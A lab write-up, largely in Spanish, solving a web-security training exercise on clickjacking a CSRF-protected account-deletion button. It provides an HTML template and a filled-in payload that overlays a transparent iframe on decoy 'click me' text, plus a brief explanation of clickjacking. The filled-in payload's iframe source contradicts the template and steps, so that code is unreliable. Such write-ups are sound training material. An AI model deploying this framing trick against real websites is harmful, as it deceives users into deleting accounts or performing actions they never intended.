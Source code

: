 # Lab: Basic clickjacking with CSRF token protection

## Descripción: 
This lab contains login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website.

To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.

You can log in to your own account using the following credentials: `wiener:peter`

#### Note:
The victim will be using Chrome so test your exploit on that browser.

## Solución:
1. Iniciamos sesión con la cuenta en el sitio web de destino.

![Pasted image 20230628145430](Pasted%20image%2020230628145430.png)

2. Vamos al servidor de explotación y pegamos la siguiente plantilla HTML en la sección Cuerpo:

```html
<style> 
	iframe { 
		position:relative; 
		width:$width_value; 
		height: $height_value; 
		opacity: $opacity; 
		z-index: 2; 
	} 
	
	div { 
		position:absolute; 
		top:$top_value; 
		left:$side_value; 
		z-index: 1; 
	} 
</style> 

<div>Test me</div> <iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

3. Realizamos los siguientes ajustes en la plantilla:
	- Reemplazamos `YOUR-LAB-ID` en el atributo iframe `src` con su ID de laboratorio único.
	- Sustituya los valores de píxel adecuados por las variables `$height_value` y `$width_value` del iframe (sugerimos 1200px y 900px respectivamente).
	- Sustituya los valores de píxel adecuados por las variables` $top_value` y `$side_value` del contenido web señuelo para que el botón "Eliminar cuenta" y la acción señuelo "Pruébeme" se alineen (sugerimos 570px y 60px respectivamente).
	- Establezca el valor de opacidad `$opacity` para garantizar que el iframe de destino sea transparente. Inicialmente, use una opacidad de 0.1 para que pueda alinear las acciones de iframe y ajustar los valores de posición según sea necesario. Para el ataque enviado, funcionará un valor de 0.0001.

```html
<style> 
	iframe { 
		position:relative; 
		width:1200px; 
		height: 900px; 
		opacity: 0.0001; 
		z-index: 2; 
	} 
	
	div { 
		position:absolute; 
		top:570px; 
		left:60px; 
		z-index: 1; 
	} 
</style> 

<div>Test me</div> <iframe src="https://exploit-0a6d005e044a51eb8042076301a400fd.exploit-server.net/exploit"></iframe>
```

![Pasted image 20230628145800](Pasted%20image%2020230628145800.png)

4. Haga clic en **Store** y luego en **View exploit**.

5. Pase el cursor sobre **Test Me** y asegúrese de que el cursor cambie a una mano que indica que el elemento div está colocado correctamente. No haga clic en el botón **"Delete account"** usted mismo. Si lo hace, el laboratorio se romperá y deberá esperar hasta que se reinicie para volver a intentarlo (alrededor de 20 minutos). Si el div no se alinea correctamente, ajuste las propiedades `top` e `left` de la hoja de estilo.

6. Una vez que tenga el elemento div alineado correctamente, cambie "Test me" a "Haga clic en mí" y haga clic en **Store**.

7. Haga clic en **Deliver exploit to victim** y el laboratorio debería resolverse.

## Notas adicionales:

## clickjacking: 
El **clickjacking** es un ataque basado en la interfaz en el que se engaña a un usuario para que haga clic en contenido procesable en un sitio web oculto al hacer clic en otro contenido en un sitio web señuelo. Considere el siguiente ejemplo:

Un usuario de la web accede a un sitio web señuelo (quizás este es un enlace proporcionado por un correo electrónico) y hace clic en un botón para ganar un premio. Sin saberlo, un atacante los engañó para que presionaran un botón oculto alternativo y esto resultó en el pago de una cuenta en otro sitio. Este es un ejemplo de un ataque de clickjacking. La técnica depende de la incorporación de una página web invisible y procesable (o varias páginas) que contenga un botón o enlace oculto, por ejemplo, dentro de un iframe. El iframe se superpone sobre el contenido de la página web de señuelo anticipado del usuario. Este ataque se diferencia de un ataque CSRF en que se requiere que el usuario realice una acción, como hacer clic en un botón, mientras que un ataque CSRF depende de la falsificación de una solicitud completa sin el conocimiento o la entrada del usuario.

## Referencias:
- https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/clickjacking.md
- https://portswigger.net/web-security/csrf
- https://portswigger.net/web-security/clickjacking